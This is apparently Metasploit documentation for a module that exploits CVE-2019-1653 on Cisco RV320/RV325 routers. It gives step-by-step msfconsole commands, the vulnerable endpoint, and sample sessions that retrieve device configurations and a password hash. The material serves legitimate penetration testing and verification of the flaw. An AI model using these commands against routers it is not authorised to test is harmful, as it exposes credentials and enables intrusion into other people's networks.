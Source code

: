 ## Vulnerable Application

[CVE-2019-1653](https://nvd.nist.gov/vuln/detail/CVE-2019-1653) (aka Cisco Bugtracker ID [CSCvg85922](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190123-rv-info)) is an unauthenticated disclosure of device configuration information for the Cisco RV320/RV325 small business router.  The vulnerability was responsibly disclosed by [RedTeam Pentesting GmbH](https://seclists.org/fulldisclosure/2019/Jan/52).

An exposed remote administration interface (on :443) would allow an attacker to retrieve password hashes and other sensitive device configuration information.  On version `1.2.14.15`, the vulnerabilty is exploitable via the WAN interface on port 8007 (by default) or 443 (if remote administration is enabled), in addition to port 443 on the LAN side.  On version `1.2.4.17`, only LAN port 443 is accessible by default, but user configuration can open port 443 for remote management on the WAN side, making the device vulnerable externally.

More context is available from [Rapid7's blog post](https://blog.rapid7.com/2019/01/29/cisco-r-rv320-rv325-router-unauthenticated-configuration-export-vulnerability-cve-2019-1653-what-you-need-to-know/).


## Verification Steps

 1. Start `msfconsole`
 2. `use auxiliary/gather/cisco/cisco_rv320_config`
 3. `set RHOSTS 192.168.1.1` (default LAN IP) or to the WAN interface
 4. `run`
 6. Review the downloaded configuration file cited in the output.  For example:
>```
>[+] Stored configuration (128658 bytes) to /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
>```
 5. If the database is connected, review the `hosts`, `creds`, and `loot` commands

## Options

*SSL*: Should be set to 'true' for port 443 and set to 'false' for port 80 or port 8007.

*TARGETURI*: Should point to the `/cgi-bin/config.exp` endpoint and likely should never be changed.

## Scenarios

#### Against firmware version 1.4.2.15, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.15, on the WAN side, port 8007:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 172.16.0.34
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RPORT 8007
RPORT => 8007
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set SSL false
SSL => false
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against firmware version 1.4.2.17, which on the LAN side, port 443:

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[+] Stored configuration (128628 bytes) to /home/administrator/.msf4/loot/20190206165015_default_192.168.1.1_cisco.rv.config_434637.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Against newer firmware (>= 1.4.2.19):

```
msf5 >
msf5 > use auxiliary/gather/cisco/cisco_rv320_config
msf5 auxiliary(gather/cisco/cisco_rv320_config) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(gather/cisco/cisco_rv320_config) > run

[-] Auxiliary aborted due to failure: not-vulnerable: Response suggests device is patched
[*] Auxiliary module execution completed
```

#### If module succeeds, check the database:

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > hosts

Hosts
=====

address      mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------      ---                ----          -------  ---------  -----  -------  ----  --------
172.16.0.34  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
192.168.1.1  70:E4:22:94:E7:20  router94e720  Cisco    RV320                            
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > creds
Credentials
===========

host         origin       service          public  private                            realm  private_type
----         ------       -------          ------  -------                            -----  ------------
172.16.0.34  192.168.1.1  8007/tcp (http)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
192.168.1.1  192.168.1.1  443/tcp (https)  cisco   $1$mldcsfp$gCrnS7A0ta6E5EzwDiZ9t/         Nonreplayable hash
```

```
msf5 auxiliary(gather/cisco/cisco_rv320_config) > loot

Loot
====

host         service  type             name  content     info  path
----         -------  ----             ----  -------     ----  ----
172.16.0.34           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206213439_default_172.16.0.34_cisco.rv.config_791561.txt
192.168.1.1           cisco.rv.config        text/plain        /home/administrator/.msf4/loot/20190206211312_default_192.168.1.1_cisco.rv.config_412095.txt
```
